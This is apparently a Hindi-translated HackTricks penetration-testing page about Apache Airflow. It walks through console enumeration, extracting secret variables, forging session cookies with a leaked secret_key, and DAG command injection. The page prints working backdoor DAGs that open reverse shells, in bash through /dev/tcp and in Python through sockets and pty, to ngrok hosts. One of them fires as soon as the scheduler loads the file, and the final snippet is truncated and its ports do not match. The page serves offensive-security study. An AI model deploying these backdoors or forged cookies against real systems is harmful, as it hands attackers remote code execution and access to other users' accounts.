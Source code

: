 # Apache Airflow Security

{{#include ../../banners/hacktricks-training.md}}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) **डेटा पाइपलाइनों या वर्कफ़्लो को व्यवस्थित और शेड्यूल करने के लिए एक प्लेटफ़ॉर्म के रूप में कार्य करता है**। डेटा पाइपलाइनों के संदर्भ में "व्यवस्थापन" का अर्थ विभिन्न स्रोतों से उत्पन्न जटिल डेटा वर्कफ़्लो को व्यवस्थित, समन्वयित और प्रबंधित करने की प्रक्रिया है। इन व्यवस्थित डेटा पाइपलाइनों का प्राथमिक उद्देश्य संसाधित और उपभोग करने योग्य डेटा सेट प्रदान करना है। ये डेटा सेट कई अनुप्रयोगों द्वारा व्यापक रूप से उपयोग किए जाते हैं, जिनमें व्यवसायिक बुद्धिमत्ता उपकरण, डेटा विज्ञान और मशीन लर्निंग मॉडल शामिल हैं, जो सभी बड़े डेटा अनुप्रयोगों के कार्य करने के लिए आधारभूत हैं।

बुनियादी रूप से, Apache Airflow आपको **कोड के निष्पादन को शेड्यूल करने की अनुमति देगा जब कुछ** (घटना, क्रोन) **होता है**।

### Local Lab

#### Docker-Compose

आप **docker-compose config file from** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) का उपयोग करके एक पूर्ण apache airflow docker वातावरण लॉन्च कर सकते हैं। (यदि आप MacOS पर हैं, तो सुनिश्चित करें कि आप docker VM को कम से कम 6GB RAM दें)।

#### Minikube

**apache airflo**w को चलाने का एक आसान तरीका है **minikube के साथ इसे चलाना**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow अपनी **संवेदनशील जानकारी** को अपनी कॉन्फ़िगरेशन में स्टोर कर सकता है या आप कमजोर कॉन्फ़िगरेशन पा सकते हैं:

{{#ref}}
airflow-configuration.md
{{#endref}}

### Airflow RBAC

Airflow पर हमला करने से पहले आपको **अनुमतियों का काम कैसे होता है** समझना चाहिए:

{{#ref}}
airflow-rbac.md
{{#endref}}

### Attacks

#### Web Console Enumeration

यदि आपके पास **वेब कंसोल तक पहुंच** है, तो आप निम्नलिखित जानकारी में से कुछ या सभी तक पहुंच सकते हैं:

- **Variables** (कस्टम संवेदनशील जानकारी यहां स्टोर की जा सकती है)
- **Connections** (कस्टम संवेदनशील जानकारी यहां स्टोर की जा सकती है)
- उन्हें `http://<airflow>/connection/list/` में एक्सेस करें
- [**Configuration**](./#airflow-configuration) (संवेदनशील जानकारी जैसे **`secret_key`** और पासवर्ड यहां स्टोर किए जा सकते हैं)
- **users & roles** की सूची
- **Code of each DAG** (जिसमें दिलचस्प जानकारी हो सकती है)

#### Retrieve Variables Values

Variables को Airflow में स्टोर किया जा सकता है ताकि **DAGs** उनके मानों को **एक्सेस** कर सकें। यह अन्य प्लेटफार्मों के रहस्यों के समान है। यदि आपके पास **पर्याप्त अनुमतियाँ** हैं, तो आप उन्हें GUI में `http://<airflow>/variable/list/` में एक्सेस कर सकते हैं।\
Airflow डिफ़ॉल्ट रूप से GUI में वेरिएबल का मान दिखाएगा, हालाँकि, [**इस**](https://marclamberti.com/blog/variables-with-apache-airflow/) के अनुसार, एक **वेरिएबल्स की सूची** सेट करना संभव है जिसका **मान** GUI में **अतिरिक्त चिह्नों** के रूप में दिखाई देगा।

![](<../../images/image (164).png>)

हालांकि, ये **मान** अभी भी **CLI** के माध्यम से **प्राप्त** किए जा सकते हैं (आपको DB एक्सेस होना चाहिए), **मनमाने DAG** निष्पादन, **API** के माध्यम से वेरिएबल्स एंडपॉइंट तक पहुंच (API को सक्रिय करना आवश्यक है), और **यहां तक कि GUI स्वयं!**\
GUI से उन मानों तक पहुंचने के लिए बस **वेरिएबल्स** का चयन करें जिन्हें आप एक्सेस करना चाहते हैं और **Actions -> Export** पर क्लिक करें।\
एक और तरीका है **छिपे हुए मान** पर **ब्रूटफोर्स** करना, इसे **खोज फ़िल्टरिंग** का उपयोग करके जब तक आप इसे प्राप्त न कर लें:

![](<../../images/image (152).png>)

#### Privilege Escalation

यदि **`expose_config`** कॉन्फ़िगरेशन **True** पर सेट है, तो **User** भूमिका और **ऊपर** से **वेब में कॉन्फ़िग** को **पढ़** सकते हैं। इस कॉन्फ़िगरेशन में, **`secret_key`** दिखाई देता है, जिसका अर्थ है कि इस मान्य के साथ कोई भी उपयोगकर्ता **अपना स्वयं का साइन किया हुआ कुकी बना सकता है ताकि किसी अन्य उपयोगकर्ता खाते का अनुकरण कर सके**।
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG बैकडोर (Airflow कार्यकर्ता में RCE)

यदि आपके पास **लिखने की अनुमति** है जहाँ **DAGs सहेजे जाते हैं**, तो आप बस **एक बना सकते हैं** जो आपको एक **रिवर्स शेल** भेजेगा।\
ध्यान दें कि यह रिवर्स शेल एक **airflow कार्यकर्ता कंटेनर** के अंदर निष्पादित होने वाला है:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG बैकडोर (Airflow शेड्यूलर में RCE)

यदि आप कुछ को **कोड की जड़ में निष्पादित करने के लिए सेट करते हैं**, तो इस लेखन के समय, इसे **शेड्यूलर द्वारा निष्पादित किया जाएगा** DAG के फ़ोल्डर में रखने के कुछ सेकंड बाद।
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG निर्माण

यदि आप **DAG क्लस्टर के अंदर एक मशीन को समझौता करने में सफल होते हैं**, तो आप `dags/` फ़ोल्डर में नए **DAGs स्क्रिप्ट** बना सकते हैं और ये **DAG क्लस्टर के अंदर बाकी मशीनों में दोहराए जाएंगे**।

#### DAG कोड इंजेक्शन

जब आप GUI से एक DAG को निष्पादित करते हैं, तो आप इसे **आर्गुमेंट्स** **दे सकते हैं**।\
इसलिए, यदि DAG ठीक से कोडित नहीं है, तो यह **कमांड इंजेक्शन के लिए संवेदनशील हो सकता है।**\
यही इस CVE में हुआ: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

आपको **DAGs में कमांड इंजेक्शन की तलाश शुरू करने के लिए जो कुछ भी जानने की आवश्यकता है, वह यह है कि **पैरामीटर** कोड **`dag_run.conf.get("param_name")`** के साथ **एक्सेस** किए जाते हैं। 

इसके अलावा, वही संवेदनशीलता **वेरिएबल्स** के साथ भी हो सकती है (ध्यान दें कि पर्याप्त विशेषाधिकार के साथ आप GUI में **वेरिएबल्स के मान को नियंत्रित कर सकते हैं**)। वेरिएबल्स को **इससे एक्सेस किया जाता है**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
यदि उन्हें उदाहरण के लिए एक bash कमांड के अंदर उपयोग किया जाता है, तो आप एक कमांड इंजेक्शन कर सकते हैं। 

{{#include ../../banners/hacktricks-training.md}}
